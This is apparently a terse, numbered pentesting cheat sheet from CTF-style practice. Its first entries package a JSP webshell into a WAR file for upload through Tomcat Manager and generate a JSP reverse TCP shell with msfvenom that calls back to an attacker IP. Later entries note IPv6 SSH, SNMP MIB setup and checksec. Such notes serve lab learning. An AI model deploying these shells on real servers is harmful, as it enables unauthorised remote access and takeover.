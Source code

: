 
$ cd webshell
$ jar -cvf ../webshell.war *
added manifest
adding: index.jsp(in = 579) (out= 351)(deflated 39%)
Our Webshell (webshell.war) is now packaged and we can upload it using the Tomcat Manager.


upload the shell after that .






// generate one with msfvenom


msfvenom -p java/jsp_shell_reverse_tcp LHOST=[Attack box IP] LPORT=4444 -f war >
/root/Desktop/shell.war
====================
167


ssh ipv6


ssh -i sneaky.key test@fe80::1%ens34
ssh -6 -i id-rsa test@2001::1


======================
168


view ipv6 neighbors
ip  -6 neighbors




=======================


169


install mips downloader
root@kali:~/htb/Lazy# apt-get install snmp-mibs-downloader




vi /etc/snmp/snmp.conf


comment the line that starts with mibs






=========================
170
check protection on binaries


checksec [binary-name]
